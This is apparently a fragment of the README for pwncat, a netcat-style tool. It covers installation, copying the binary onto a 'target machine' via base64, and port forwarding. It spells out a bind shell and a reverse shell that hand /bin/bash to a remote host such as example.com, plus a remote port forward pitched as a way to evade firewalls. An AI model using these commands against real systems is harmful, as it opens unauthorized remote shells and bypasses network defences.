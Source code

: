
## :tada: Install
```bash
pip install pwncat
```


## :coffee: TL;DR

#### Copy to target
```bash
# Copy base64 data to clipboard from where you have internet access
curl https://raw.githubusercontent.com/cytopia/pwncat/master/bin/pwncat | base64

# Paste it on the target machine
echo "<BASE64 STRING>" | base64 -d > pwncat
chmod +x pwncat
```
#### Summon shells
```bash
# bind shell
pwncat -l -e '/bin/bash' 8080
```
```bash
# reverse shell
pwncat -e '/bin/bash' example.com 4444
```
#### Port-forwarding without SSH

See here to un-brainfuck: https://www.everythingcli.org/ssh-tunnelling-for-fun-and-profit-local-vs-remote/<br/>
(Using the same examples to make it more clear)

The only difference to SSH port-forwarding shown in the blog, is that in their case, the MySQL server is only available on localhost on the remote server.
SSH portfowarding is exactly for this case, as it SSH's into the machine and can reach their local port.
In the example here, we cannot SSH into the server, so we can only forward/proxy something which is externally available.
That's why we just assume the MySQL server is listening publically on everythingcli.org (i.e, their port 3306 is externally available.)
```bash
# Local port forward (-L)
# Make Remote MySQL server (remote port 3306) available on local machine on local port 5000
# (listen locally on 127.0.0.1:5000 and proxy everything to everythingcli.org:3306)
pwncat -L 127.0.0.1:5000 everythingcli.org 3306
```
```bash
# Remote port forward (-R) to evade firewalls
pwncat -R 127.0.0.1:3306 example.com 4444
```


## :star: Features

